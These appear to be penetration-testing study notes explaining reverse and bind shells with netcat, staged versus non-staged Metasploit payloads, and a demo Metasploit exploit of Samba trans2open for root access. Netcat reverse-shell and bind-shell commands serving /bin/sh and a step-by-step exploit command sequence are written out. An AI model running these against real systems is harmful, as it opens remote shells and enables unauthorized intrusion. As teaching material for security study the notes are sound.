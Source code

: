 

#### Types of Shell Connections:

- Reverse Shell:
	- A Reverse Shell is a process where the target connects to the attackbox/hacker's machine and establishes a shell connection
	- Reverse shell is performed used Netcat with below example syntax:
		- AttackBox/Hacker's machine: `nc -lvp 4444`
			- nc - netcat
			- -l - listen
			- -v - verbose
			- -p - port 
		- Target machine: `nc {ip-address} {port} -e /bin/sh` (Linux)
			- `nc {ip-address} {port} -e command.exe` (windows)
				- nc- netcat
				- -e - establish
- Bind Shell:
	- A Bind Shell is a process where the attacker/hacker machine connects to the target machine to the opened port
		- Bind shell is performed when there is a open port in target machine, which is opened by a exploit for example 4444 port
			- Target Machine: `nc -lvp 4444 -e /bin/sh`
			- Attacker Machine: `nc {ip-address} {port}`

#### Types of Payloads:

- Non-Staged Payload:
	- Sending exploit shellcode all at once
	- Larger in size and wont work always
		- Ex:
			- `windows/meterpreter_reverse_tcp`
- Staged Payload:
	- Sending payload in stages
	- Can be less stable
		- Ex:
			- `windows/meterpreter/reverse_tcp`


#### Gaining Root with Metasploit:

-  Just a demo exploit procedure to gain root shell access to a vulnerable machine through metasploit
	- Step-1:
		- Check which exploit is feasible for the machine, after gathering all the information in the reconnaissance and scanning phases, as for the example, we can use smb exploit to gain access to the machine
		- Start metasploit using
			- `msfconsole`
		- Search for the exploit (ex: trans2open)
			- `search trans2open`
		- Once you find the machine OS use that module from metasploit
			- `use 0/1/2/exploit/linux/samba/trans2open`
		- Once the exploit module is selected, use the options command to check for the target host and the payload options
			- `options`
		- Set the RHOST (Target machine {ip-address})
			- `set RHOSTS {ip-address}`
		- Set the payload as well, if we want to proceed with Staged Payload or Non-Staged Payload
			- `set payload linux/x86/shell_reverse_tcp`
		- Once all the options are set  as required, run the exploit using the exploit command:
			- `exploit`
		- Once the exploit is successful,  a shell connection will be established to the target machine and you can confirm the connection, by typing 'whoami
